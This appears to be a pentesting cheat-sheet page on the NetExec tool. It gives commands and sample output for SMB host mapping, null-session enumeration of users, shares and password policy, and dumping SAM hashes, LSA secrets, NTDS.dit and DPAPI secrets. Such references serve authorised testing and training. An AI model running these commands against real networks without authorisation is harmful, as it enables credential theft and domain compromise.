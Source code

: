 # NetExec

{% hint style="info" %}
## Download & Install:

[https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)
{% endhint %}

The general format for using NetExec is as follows:

```bash
clue@machine[/]$ netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

## Map Network Hosts <a href="#map-network-hosts" id="map-network-hosts"></a>

Returns a list of live hosts

```bash
nxc smb 192.168.1.0/24
```

Expected Results:

```bash
SMB         192.168.1.101    445    DC2012A          [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC2012A) (domain:OCEAN) (signing:True) (SMBv1:True)
SMB         192.168.1.102    445    DC2012B          [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC2012B) (domain:EARTH) (signing:True) (SMBv1:True)
SMB         192.168.1.110    445    DC2016A          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC2016A) (domain:OCEAN) (signing:True) (SMBv1:True)
SMB         192.168.1.117    445    WIN10DESK1       [*] WIN10DESK1 x64 (name:WIN10DESK1) (domain:OCEAN) (signing:False) (SMBv1:True)
```

## Enumerate Null Sessions

Check if **Null Session**, also known as Anonymous session, is enabled on the network. Can be very useful on a Domain Controller to enumerate users, groups, password policies, etc.

```bash
nxc smb 10.10.10.161 -u '' -p ''
nxc smb 10.10.10.161 -u '' -p '' --shares
nxc smb 10.10.10.161 -u '' -p '' --pass-pol
nxc smb 10.10.10.161 -u '' -p '' --users
nxc smb 10.10.10.161 -u '' -p '' --groups
```

This can also be achieved with [smbclient.md](smbclient.md "mention") or [rpcclient.md](rpcclient.md "mention").

```bash
smbclient -N -U "" -L \\10.10.10.161
```

```bash
rpcclient -N -U "" -L \\10.10.10.161
rpcclient $> enumdomusers
user:[bonclay] rid:[0x46e]
user:[zoro] rid:[0x46f]
```

## Credential Dumping

### SAM Hashes Dump

Dumps SAM hashes from the target system after a successful login. You can use `smb` or `winrm` services.

```bash
nxc <smb|winrm> <target> -u <USERNAME> -p <PASSWORD> --sam
```

### LSA Secrets Dump

Dumps LSA secrets from the target system after a successful login. You can use `smb` or `winrm` services.

```bash
nxc <smb|winrm> <target> -u <USERNAME> -p <PASSWORD> --lsa
```

### NTDS File Dump

Dumps the NTDS.dit file from the target Domain Controller after a successful login. You can use either `vss` or `drsuapi` as the method (`drsuapi` is the default). Use the `--user` option to dump only a specific user.

```bash
nxc smb <target> -u <USERNAME> -p <PASSWORD> --ntds [vss,drsupai ]
```

### DPAPI Secrets Dump

Dumps DPAPI secrets from the target machine. You dump cookies with the `cookies` options or use the `nosystem` option not to dump the SYSTEM dpapi (better opsec).

```bash
nxc smb <target> -u <USERNAME> -p <PASSWORD> --dpapi [cookies,nosystem]
```
